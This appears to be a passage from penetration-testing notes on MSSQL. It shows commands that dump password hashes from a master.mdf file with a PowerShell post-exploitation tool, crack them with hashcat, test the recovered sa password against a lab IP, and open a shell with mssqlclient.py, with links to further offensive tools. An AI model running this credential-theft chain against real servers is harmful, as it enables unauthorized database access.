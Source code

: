 [https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes)

Actually, we do not need Windows for this since we can run Powershell on Kali using **pwsh**

We may find some errors on the way:

\- Not importing .dll correctly → check the own repo for fixes/pull requests [https://github.com/xpn/Powershell-PostExploitation/pull/4/commits/2e22f13362bf908d50abe4ae4936577b6985ca1b](https://github.com/xpn/Powershell-PostExploitation/pull/4/commits/2e22f13362bf908d50abe4ae4936577b6985ca1b)

\- Seeing ... and truncated hashes → make terminal font small until hashes fit

```bash
pwsh
└─PS> Add-Type -AssemblyName ./OrcaMDF.Framework.dll

└─PS> Add-Type -AssemblyName ./OrcaMDF.RawCore.dll

└─PS> . ./Get-MDFHashes.ps1

└─PS> Get-MDFHashes -mdf ./master.mdf
Name                           Value
----                           -----
...

# To crack the hashes
hashcat -m 1731 hashes rockyou.txt --potfile-disable

# To check credentials
cme mssql 10.11.1.1 -u sa -p password13

# Get a shell
mssqlclient.py sa:password13@10.11.1.1
```

## GUI

{% embed url="https://github.com/dbeaver/dbeaver" %}

## Other tools

* [https://github.com/NetSPI/ESC](https://github.com/NetSPI/ESC)
* [https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/MSSQL/Program.cs](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/MSSQL/Program.cs)

